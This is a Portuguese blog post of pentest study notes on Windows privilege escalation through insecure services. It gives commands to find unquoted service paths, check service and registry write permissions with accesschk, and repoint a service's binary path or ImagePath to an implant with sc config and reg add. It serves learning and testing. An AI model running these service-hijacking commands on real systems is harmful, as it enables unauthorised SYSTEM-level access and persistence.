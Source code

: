 ```yaml
---
layout: post
title: windows priv-esc pt2
date: 2024-05-15
description: serie de windows Priv-Esc
categories: windows bhatagem
---
```


A primeira parte dessa serie teve algumas notas sobre services, permissões, privilégios, etc. Logo quando terminei a primeira vi que ja estava muita coisa pra um post só, então decidi dividir em mais duas partes, sendo três partes no total...
Essa segunda parte aborda algumas tecnicas sobre priv-esc com permissões de services e junto algumas referências para leitura adicional.

## # Insecured Objects (Non Admin Medium IL)

> ### Insecured Services

#### Priv Esc usando insecured objects, especificamente abusando dos Windows Services.

#### A primeira tecnica é chamada ```Insecure Service Path``` (unquoted and with spaces in paths):

- Ache services com espaços no binary path
- ``` C:\> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """ ```


- Exploration
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths)
  - [https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)


#### A segunda tecnica é chamada de ```insecure config services``` ou ```weak services permission```

- Permite um usuário com poucos privilégios ter permissão para alterar a configuração de um service. Por exemplo, alterar o binário que um service usa quando inicia...

- Isso mostrará uma lista de cada service e os grupos que têm permissões de gravação para esse service. Fornecer um grupo limitará a saída aos serviços para os quais o grupo tem permissão de gravação:

- ``` C:\> accesschk.exe -accepteula -wuvc "Authenticated Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Everyone" * ```

- Para ver as configs do service:
- ``` C:\> sc query <service-name> ``` - lista services
- ``` C:\> sc qc <service-name> ``` - info do service


- Alterar a config e restart no service (se precisar)
- ``` sc config <serivce-name> binPath= "c:\implant\implant.exe" ```
- ``` sc start <service-name> ```

- Exploration
  - [https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/](https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/)
  - [https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/)
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#permissions](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#permissions)
  - [https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)


#### A terceira tecnica é modificar permissões dos Registries (weak registry permissions)

- Lista dos services
- ``` C:\> accesschk.exe -accepteula -kwuqsw hklm\System\CurrentControlSet\services > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- reconfigurando services vulneraveis:

- Ver os paths do binarios:
- ``` reg query HKLM\SYSTEM\CurrentControlSet\services\ /s /v imagepath ```

- ``` reg add HKLM\SYSTEM\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\implant\implant.exe /f ```


- Exploration
  - [https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Privilege%20Escalation/Windows/Misconfigured%20Services/Weak%20Registry%20Permissions.html](https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Privilege%20Escalation/Windows/Misconfigured%20Services/Weak%20Registry%20Permissions.html)
  - [https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10](https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10)
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions)
  - [https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/](https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/)


>___
